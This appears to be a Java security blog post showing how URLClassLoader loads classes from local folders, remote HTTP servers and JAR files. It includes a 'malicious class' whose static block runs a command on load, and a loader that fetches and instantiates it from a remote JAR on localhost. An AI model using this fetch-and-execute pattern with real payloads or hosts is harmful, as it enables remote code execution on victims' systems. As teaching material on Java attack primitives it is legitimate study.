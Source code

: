 ```yaml
---
title: Using URLClassLoader to Load Java Bytecode
date: 2023-08-26 08:06:24 +0800
categories: [Load Java-Bytecode]
tags: [Java, Security]
author: <author_id>
description: URLClassLoader is a Java class loader that enables dynamic loading of classes and resources from specified URLs. It supports various protocols like file, http, and jar. By defining an array of URL objects, URLClassLoader can locate and load class files or JAR packages from local directories, remote servers, or even nested paths within JAR files. This flexibility allows developers to dynamically load bytecode into the JVM at runtime for execution.
---
```






## Using URLClassLoader to Load Bytecode

`URLClassLoader` is a subclass of `ClassLoader`, primarily used to load classes from one or more specified URLs. These URLs can point to local files or remote resources. It supports the `http`, `file`, and `JAR` protocols.

```shell
# Generate JAR package
$ javac -d bin CalcExp.java
$ jar cf calcExp.jar -C bin /.
```
{: .nolineno}

1. **Create a Malicious Class (Example: Launch Calculator)**

```java
import java.io.IOException;

public class CalcExp {
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno}

2. **Compile `CalcExp.java` to Generate `CalcExp.class`**

3. **Write the Malicious Bytecode Loader Code**

```java
import java.net.URL;
import java.net.URLClassLoader;

public class CalcExpClassLoader {
    public static void main(String[] args) {
        try {
            // Create a URLClassLoader with a local directory
            // URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("file:///C:\\Users\\xxx\\Desktop\\")});

            // Create a URLClassLoader with a remote resource
            // URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("http://localhost:8000/")});

            // Create a URLClassLoader for a JAR file in the local filesystem
            // URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("jar:file:///C:\\Users\\xxx\\Desktop\\calcExp.jar!/")});

            // Create a URLClassLoader for a JAR file from a remote resource
            URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("jar:http://localhost:8000/calcExp.jar!/")});

            // Load the "CalcExp" class
            Class<?> calc = urlClassLoader.loadClass("CalcExp");

            // Instantiate the "CalcExp" class
            calc.newInstance();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno}

The `URLClassLoader` creates a custom class loader that loads classes from specified resource paths. It supports local files, remote resources, and JAR files.

`URL("file:///...")` creates a URL that represents a file system path. 

`new URL[]{...}` defines an array of URLs, indicating that the class loader will search for class files in the specified directories.



1. **Local Directory**

​	Load classes from a local directory:

```java
URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("file:///C:\\Users\\xxx\\Desktop\\")});
```
{: .nolineno}

![](../assets/posts/2023-08-26-Using-URLClassLoader-to-Load-Java-Bytecode/1.png)



2. **Remote Resource**

   Load classes from a remote server:

```java
URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("http://localhost:8000/")});
```
{: .nolineno}

![](../assets/posts/2023-08-26-Using-URLClassLoader-to-Load-Java-Bytecode/2.png)



3. **JAR File (Local)**
   Load classes from a local JAR file:

```java
URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("jar:file:///C:\\Users\\xxx\\Desktop\\calcExp.jar!/")});
```
{: .nolineno}

![](../assets/posts/2023-08-26-Using-URLClassLoader-to-Load-Java-Bytecode/3.png)



4. **JAR File (Remote)**
   Load classes from a remote JAR file:

```java
URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("jar:http://localhost:8000/calcExp.jar!/")});
```
{: .nolineno}

![](../assets/posts/2023-08-26-Using-URLClassLoader-to-Load-Java-Bytecode/4.png)

